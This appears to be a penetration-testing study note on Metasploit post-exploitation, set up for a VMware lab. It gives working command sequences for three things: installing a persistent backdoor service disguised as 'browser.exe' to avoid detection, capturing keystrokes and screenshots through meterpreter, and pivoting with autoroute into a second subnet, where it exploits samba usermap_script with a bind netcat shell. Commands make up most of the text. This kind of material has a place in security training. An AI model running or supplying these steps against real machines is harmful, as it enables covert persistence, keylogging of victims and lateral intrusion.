# Post connection attacks
-   attacks after connections to the victim's machine using metasploit in meterpreter console


## Maintaining access
-   How to maintain access after getting one through backdoor and Metasploit:
    1)  Use a handler, which is a service to generate the backdoor payload. For example `c/meterpreter/rev_http_service`. This way the backdoor will install as service to the victims machine and it will run whenever he will run the machine. This doesn't always work.
    2)  Inject our created backdoor payload and inject to the services manually in meterpreter after gaining the access to the victims machine:


```bash
backgroud # in meterspreter make the connection run in the bg
sessions -l # get list of sessions
use exploit/windows/local/persistence # switch handler in msf exploit(handler), after running should showup msf exploit(persistence)
show options
set EXE_NAME browser.exe # this is name of our backdoor, which will show up under the processes, using something like browser is less detectable
set SESSION 2 # set this to session id which should the exploit run on
show advanced # shows more (advanced) options
set EXE::Custom /var/html/backdoor.exe # set the path to the payload which should be run on the victim's machine. In our case it is the backdoor
show advanced # check if set right
exploit
```
-   after running exploit in this case it uploads the /var/html/backdoor.exe to the victim's machine in set session (2) and installs it.
-   also will show "clean up Meterpreter", which allows to delete the backdoor from the victim's machine, which should be used after not needing the access anymore. Could look like `/root/.msf4/logs/persistence/MSEGEWIN10_2020612/MSEGEWIN10_2020612.2445.rc`
-   to test the right setup:
```bash
sessions -K # kill all the sessions
sessions -l
use exploit/multi/handler
show options # check if set correctly, otherwise set LPORT and LHOST as needed
exploit     # victim's pc should automatically connect now
```


## Capturing keystrokes and screenshots
In meterpreter:
```bash
keyscan_start # recording everything
keyscan_dump # print all the captured key strikes. It is organized and it shows also which website for example was it typed on
keyscan_stop # stop recording
screenshot # get screenshot
```


## Pivoting
-   use the hacked device as pivot to try to get access to other devices in the network
-   for testing environment, network settings in VMware need to be changed:
    1) Kali linux machine: keep it NAT
    2) 1st windows Windows machine:
        -   1st Network: keep one adapter NAT
        -   2nd Network add second network adapter (Add button on left bottom corner), and set it as Bridged
    3) 2nd Windows / Linux machine (tested with Metasploitable Linux):
        -   set it as Bridge
        -   this is the machine that Kali will connect to through 1st Windows machine
-   connect to the Windows 1 through the created backdoor in metasploit as previously (`session -l` and `sessions -i 1`)
```bash
ifconfig # find machines with ip addresses
background
use post/multi/manage/autoroute
show options
set SESSION 1 # set session id which you are connected to the victim's machine
set SUBNET 10.20.15.0 # set subnet to subnet which Kali doesn't have access, but wants to connect as attacker
exploit
```
-   this creates connection between victim's machine and Kali (attacker), so the set subnet is now visible from the Kali machine as well
```bash
use exploit/multi/samba/usermap_script
show options
set RHOST 10.20.15.4 # ip address of the 2nd victim's machine found from previous ifconfig
show payloads
set PAYLOAD cmd/unix/bind_netcat
show options
exploit
```
-   this will connect Kali machine to the 2nd victims machine